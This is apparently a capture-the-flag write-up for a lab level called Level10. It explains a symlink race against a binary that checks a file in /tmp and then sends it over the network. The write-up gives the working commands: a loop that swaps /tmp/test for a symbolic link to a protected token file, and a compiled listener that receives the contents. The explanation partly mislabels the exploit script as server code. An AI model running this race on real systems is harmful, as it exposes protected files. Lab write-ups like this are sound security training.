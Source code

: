 # Level10 Write-up

## Objective:

The goal of this level was to establish a server, exploit a vulnerability to gain access, and retrieve the flag.

## Step-by-step process:

### Step 1: Compiling a Miniserver

The first step was to compile a `miniserv.c` file to create an executable:

```bash
cc miniserv.c -o a.out
```

### Step 2: Running the Server

Next, I ran the compiled server in a loop using the following command:

```bash
while true; do ./a.out; done
```

This continuously ran the server, keeping it alive for further exploitation.

### Step 3: Analyzing the Vulnerability

Upon inspecting the code, I noticed that it opened a connection and used a temporary file (`/tmp/test`). The server appeared to be vulnerable to symbolic link attacks or file manipulation. The relevant part of the code was:

```bash
#!/bin/bash

rm /tmp/test
touch /tmp/test
/home/user/level10/level10 /tmp/test 192.168.122.1 & rm /tmp/test && ln -s /home/user/level10/token /tmp/test
```

### Step 4: Exploiting the Vulnerability

I exploited this by using a combination of commands. The goal was to create the necessary symbolic link and ensure that the server was triggered correctly.

First, I created the necessary `script.sh` file that would continuously run and trigger the vulnerability:

```bash
while true; do /tmp/script.sh; done
```

This would execute the necessary steps in the background, creating a symbolic link from `/tmp/test` to `/home/user/level10/token`.

### Step 5: Triggering the Vulnerability and Retrieving the Flag

Once the exploit was in place, the server accepted the connection, and I was able to access the `token` file through the symbolic link and retrieve the flag.
